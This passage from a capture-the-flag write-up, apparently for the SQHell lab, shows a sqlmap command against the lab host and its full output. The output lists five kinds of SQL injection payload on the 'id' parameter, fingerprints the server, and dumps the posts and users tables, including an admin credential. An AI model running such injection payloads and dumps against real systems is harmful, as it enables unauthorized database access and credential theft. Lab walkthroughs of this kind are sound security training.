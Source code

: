 As before, we’ve found the database is called sqhell\_5, now dump everything:

```
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u "http://sqhell.thm/post?id=2" -p "id" --dbms=mysql -D sqhell_5 --dump-all --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.5.5#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 22:50:52 /2021-06-10/
[22:50:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=2 AND 7533=7533

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: id=2 AND GTID_SUBSET(CONCAT(0x716a6b7071,(SELECT (ELT(3773=3773,1))),0x716a767071),3773)

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: id=2;SELECT SLEEP(5)#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=2 AND (SELECT 1146 FROM (SELECT(SLEEP(5)))RxrU)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=-3834 UNION ALL SELECT NULL,CONCAT(0x716a6b7071,0x52756b6441764b664548654d68494b726b4477706d7955444c66446a50665864577a784e77435848,0x716a767071),NULL,NULL-- -
---
[22:50:52] [INFO] testing MySQL
[22:50:52] [INFO] confirming MySQL
[22:50:52] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL >= 8.0.0
[22:50:52] [INFO] fetching tables for database: 'sqhell_5'
[22:50:52] [INFO] fetching columns for table 'posts' in database 'sqhell_5'
[22:50:52] [INFO] fetching entries for table 'posts' in database 'sqhell_5'
Database: sqhell_5
Table: posts
[2 entries]
[22:50:52] [INFO] table 'sqhell_5.posts' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/posts.csv'
[22:50:52] [INFO] fetching columns for table 'users' in database 'sqhell_5'
[22:50:52] [INFO] fetching entries for table 'users' in database 'sqhell_5'
Database: sqhell_5
Table: users
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | password | admin    |
+----+----------+----------+
```